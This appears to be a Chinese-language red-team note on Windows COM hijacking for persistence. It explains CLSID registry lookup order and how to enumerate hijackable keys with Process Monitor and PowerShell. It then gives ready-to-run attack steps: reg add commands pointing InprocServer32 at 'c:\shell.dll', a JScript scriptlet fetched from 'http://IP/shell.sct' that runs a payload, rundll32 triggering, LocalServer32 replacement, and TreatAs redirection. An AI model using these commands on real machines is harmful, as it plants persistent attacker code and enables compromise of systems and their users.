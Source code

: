 ## COM Hijacking

### COM 组件对象模型

COM 是一个独立于平台的分布式面向对象的系统，用于创建可以交互的二进制软件组件。 COM 是 Microsoft 的 OLE (复合文档的基础技术，) 和 ActiveX (支持 Internet 的组件) 技术

官方文档：https://learn.microsoft.com/zh-cn/windows/win32/com/component-object-model--com--portal

### CLSID Key

官方文档：https://learn.microsoft.com/zh-cn/windows/win32/com/clsid-key-hklm

```cmd
# 常见的CLSID

{20D04FE0-3AEA-1069-A2D8-08002B30309D} # 我的电脑
{450D8FBA-AD25-11D0-98A8-0800361B1103} # 我的文档
{645FF040-5081-101B-9F08-00AA002F954E} # 回收站
```

### 劫持原理

一般来说，COM组件在被调用加载过程中会寻找注册表三个位置：

1. HKCU\Software\Classes\CLSID\{CLSID}
2. HKCR\CLSID\{CLSID}
3. HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\ShellCompatibility\Objects\{CLSID}

每一个CLSID键下会有一个基本子键`LocalServer32`或`InprocServer32`，它两的键值代表该COM组件提供的功能。其中`LocalServer32`的默认键值一般表示可执行文件(exe)的路径，而`InprocServer32`的默认键值表示动态链接库(DLL)的路径。也可以有其他的子键，`ThreadingModel`作用是标记该DLL的线程模型

所以，根据COM调用加载过程可以得出理论上可行的劫持方案：

- HKCR中有，而HKCU中没有，只需要在HKCU中注册即可劫持HKCR中的COM服务
- 修改掉`LocalServer32`或`InprocServer32`的键值
- 替换掉`LocalServer32`或`InprocServer32`的键值中的文件

基于这种思路，可以利用脚本[https://github.com/earthmanET/COM-Hijacker](https:) 用于枚举可能存在COM劫持的`LocalServer32`或`InprocServer32`

官方文档：https://learn.microsoft.com/zh-cn/windows/win32/com/inprocserver32

```cmd
# 常被利用的键值
InprocServer/InprocServer32 # 动态链接库文件(dll)的路径
LocalServer/LocalServer32 # 可执行文件(exe)的路径
TreatAs
ProgID

# 注册表项
HKEY_CURRENT_USER\Software\Classes\CLSID
HKEY_LOCAL_MACHINE\Software\Classes\CLSID
```

### Discover COM Keys – Hijack

识别可用于进行 COM 劫持的 COM 密钥很简单，需要使用 [Process Monitor](https://download.sysinternals.com/files/ProcessMonitor.zip) 来发现缺少 CLSID 且不需要提升权限 (HKCU) 的 COM 服务

Process Monitor 可以配置以下过滤器

```cmd
Operation is RegOpenKey
Result is NAME NOT FOUND
Path ends with InprocServer32
Exclude if path starts with HKLM
```

导出结果之后，使用[acCOMplice](https://github.com/nccgroup/acCOMplice)的 PowerShell 脚本提取CSV中的可劫持COM Keys

```powershell
Import-Module COMHijackToolkit.ps1
Extract-HijackableKeysFromProcmonCSV -CSVfile .\result.CSV
```

或者直接检索系统上存在的缺失库及其 CLSID

```powershell
Find-MissingLibraries
```

PowerShell 脚本

```powershell
$inproc = gwmi Win32_COMSetting | ?{ $_.LocalServer32 -ne $null }
$inproc | ForEach {$_.LocalServer32} > values.txt
$paths = gc .\values.txt
foreach ($p in $paths){$p;cmd /c dir $p > $null}
```

同样，以下 PowerShell 代码也可以枚举 InprocServer32 类

```powershell
$inproc = gwmi Win32_COMSetting | ?{ $_.InprocServer32 -ne $null }
$paths = $inproc | ForEach {$_.InprocServer32}
foreach ($p in $paths){$p;cmd /c dir $p > $null}
```

### Discover COM Keys – Scheduled Task

PowerShell 脚本 ( [Get-ScheduledTaskComHandler](https://github.com/enigma0x3/Misc-PowerShell-Stuff/blob/master/Get-ScheduledTaskComHandler.ps1) )，它可以检查主机上所有在用户登录时执行的计划任务，并找出哪些容易受到 COM 劫持

```powershell
Import-Module .\Get-ScheduledTaskComHandler.ps1
Get-ScheduledTaskComHandler
```

参数“ **PersistenceLocations** ”将检索容易受到 COM 劫持的计划任务，这些任务可用于持久性，并且不需要提升权限。CLSID 和关联的 DLL 也将显示在输出中

```powershell
Get-ScheduledTaskComHandler -PersistenceLocations
```

调用“ *schtasks* ”检索文件的内容

```powershell
schtasks /query /FO list | findstr "CacheTask"

# 获取 CLSID
schtasks /query /XML /TN "\Microsoft\Windows\Wininet\CacheTask"
schtasks /query /XML /TN "\Microsoft\Windows\CertificateServicesClient\UserTask"

```

### InprocServer32

“ **InprocServer32** ”（进程内服务器）注册表项指示 COM 库位于磁盘上的位置并定义线程模型

为 "CacheTask" 重新创建注册表项结构并指向任意 DLL：上传DLL；设置子键“ **InprocServer32** ”指向 DLL 的位置

由于“ **CacheTask** ”默认在登录期间启动，因此任何用户代码都将在登录期间永久执行（持久性）

```cmd
# Usage
HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{CLSID}\InProcServer32

HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{0358b920-0ac7-461f-98f4-58e32cd89148}\InProcServer32

# Windows 7 需要 Administrator 权限 ；Windows 10 需要 TrustedInstaller 权限
reg add HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{CLSID}\InProcServer32 /v "" /t REG_SZ /d "<path to dll>" /f

reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{0358b920-0ac7-461f-98f4-58e32cd89148}\InProcServer32" /v "" /t REG_SZ /d "c:\shell.dll" /f
```

“ **ScriptletURL** ”注册表项定义了调用 COM 类时将获取并执行的任意 .sct 文件的远程位置，执行无文件持久化

```scriptlet
<?XML version="1.0"?>
<scriptlet>
 
<registration
    description="Pentest.Lab"
    progid="Pentest.Lab"
    version="1"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"
    remotable="true"
    >
</registration>
 
<script language="JScript">
<![CDATA[
 
        var r = new ActiveXObject("WScript.Shell").Run("pentestlab.exe");
     
     
]]>
</script>
 
</scriptlet>

# Usage
键值设置为：http://IP/shell.sct
```

执行以下命令将调用 COM 类并直接执行有效负载

```cmd
# Usage
rundll32.exe -sta {CLSID}

rundll32.exe -sta {0358b920-0ac7-461f-98f4-58e32cd89148}
```

### LocalServer32

**LocalServer32**注册表项指定外部 COM 对象在系统上的位置。这些通常是具有可执行文件形式的应用程序。

以下 COM 类 ID 已在枚举可劫持密钥期间检索到，可用于执行任意可执行文件

```powershell
HKEY_CLASSES_ROOT\CLSID\{45EAE363-122A-445A-97B6-3DE890E786F8}\LocalServer32
```

将应用程序的默认值替换为任意可执行文件实现劫持，还需要通过执行以下 PowerShell 命令来激活 ClassID，否则 COM 对象将被禁用

```powershell
[activator]::CreateInstance([type]::GetTypeFromCLSID("45EAE363-122A-445A-97B6-3DE890E786F8"))
```

### TreatAs/ProgID

“ *TreatAs* ”是一个注册表项，它允许一个 CLSID 被另一个 CLSID 模拟。这可用于将 COM 对象重定向到另一个 COM 对象

1. 使用所选的目标 COM 服务器在 HKCU 注册表配置单元中创建恶意 CLSID。
2. 通过添加指向恶意 CLSID 的“ *TreatAs* ”子项来劫持合法 CLSID 。

“ *ProgID* ”是 COM 对象的友好名称，它不是唯一的。以下注册表项将 ProgID 解析为 CLSID。

- HKCU\Software\Classes
- HKLM\Software\Classes

这意味着当应用程序（客户端）激活 COM 对象（类）时，操作系统将通过最初读取以下注册表位置来解析关联的“ *ProgID ”：*

- HKCU\Software\Classes\ProgID
